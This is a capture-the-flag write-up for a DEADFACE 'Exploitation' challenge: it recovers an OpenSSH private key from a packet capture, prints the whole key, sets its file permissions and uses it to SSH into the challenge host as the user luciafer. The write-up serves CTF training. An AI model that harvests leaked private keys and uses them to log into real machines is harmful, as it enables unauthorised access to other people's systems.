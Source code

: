 # The Root of All Evil... OR... Adding Insult to Injury
![Category](http://img.shields.io/badge/Category-Exploitation-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-300-brightgreen?style=for-the-badge)

## Details

>Great news! Luciafer has been spotted at an internet cafe! She's using her laptop right now! We can catch her, if we act quickly.
>
>We need your help. Can you figure out a way to remotely connect to her machine and capture the flag?
>
>Her username on her system is `luciafer`, and her hostname is:
>`batescafe.deadface.io`
>
>Use the PCAP from Monstrum ex Machina
---
Starting at the bottom of the Packet capturre file, if we browse through the packets one by one moving up to packet number `160849` we notice the below.

![image](https://user-images.githubusercontent.com/73170900/137876793-e7bc9195-1fd6-4047-bdc5-83a87f3bee37.png)

If we follow the TCP Stream for this packet we can see the full RSA Private Key

![image](https://user-images.githubusercontent.com/73170900/137877103-1506a245-491a-4a83-b535-65ad06236884.png)


```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

If we copy this key and save it to a file on our local machine, then set the permission to `600`

```bash
chmod 600 key_from_pcap
```

We can connect to the shell using the command;

```bash
ssh -i key_from_pcap luciafer@batescafe.deadface.io

❯ ssh -i key_from_pcap luciafer@batescafe.deadface.io
luciafer@d37a1fc45114:~$ 
```

## flag{________}
